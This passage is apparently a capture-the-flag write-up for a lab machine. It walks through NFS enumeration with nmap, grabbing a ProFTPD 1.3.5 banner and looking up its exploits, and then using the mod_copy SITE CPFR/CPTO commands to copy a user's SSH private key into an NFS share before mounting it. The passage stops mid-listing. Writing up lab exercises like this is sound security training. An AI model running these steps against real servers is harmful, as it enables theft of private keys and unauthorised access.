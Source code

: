#### What port is FTP running on?
> 21, based our rustscan before.

#### What mount can we see (at NFS)?
```bash
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.102.164
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-11 02:32 EST
Nmap scan report for 10.10.102.164
Host is up (0.20s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 15.94 seconds
```

#### Gain initial access with ProFtpd
- Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port. What is the version?
    ```bash
    $ nc 10.10.102.164 21                                                                                    1 ⨯
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.102.164]
    ```
- How many exploits are there for the ProFTPd running?
    ```bash
    $ searchsploit proftpd 1.3.5
    ----------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                               |  Path
    ----------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                    | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                          | linux/remote/36803.py
    ProFTPd 1.3.5 - File Copy                                                    | linux/remote/36742.txt
    ----------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    ```
- What is Kenobi's user flag (/home/kenobi/user.txt)?
    - Move the id_rsa from user `kenobi`
        ```bash
        $ nc 10.10.102.164 21       
        220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.102.164]
        SITE CPFR /home/kenobi/.ssh/id_rsa
        350 File or directory exists, ready for destination name
        SIE CPTO /var/tmp/id_rsa
        500 SIE not understood
        SITE CPTO /var/tmp/id_rsa
        250 Copy successful
        ```
    - Mount the directory
        ```bash
        $ sudo mkdir /mnt/kenobiNFS        
        [sudo] password for kali: 
        $ sudo mount 10.10.102.164:/var /mnt/kenobiNFS
        $ ls -la /mnt/kenobiNFS                       
        total 56
        drwxr-xr-x 14 root root    4096 Sep  4  2019 .